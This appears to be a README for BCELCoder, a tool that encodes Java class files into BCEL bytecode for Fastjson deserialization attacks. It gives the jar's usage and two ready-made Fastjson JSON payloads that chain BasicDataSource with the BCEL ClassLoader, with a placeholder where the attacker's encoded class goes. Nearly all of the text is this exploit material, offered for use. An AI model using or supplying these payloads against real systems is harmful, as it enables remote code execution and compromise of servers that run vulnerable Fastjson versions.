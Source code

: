 # BCELCoder
Used for Fastjson Bcel bytecode（用于fastjson bcel 字节码编码）


Used:  java -jar fastjson-BCELCode.jar  -e  xxxxxxx.class


附上fastjson payload：
```
{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"###EVIL_CODE###"}
```
```
{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"###EVIL_CODE###"}}:"ddd"
```
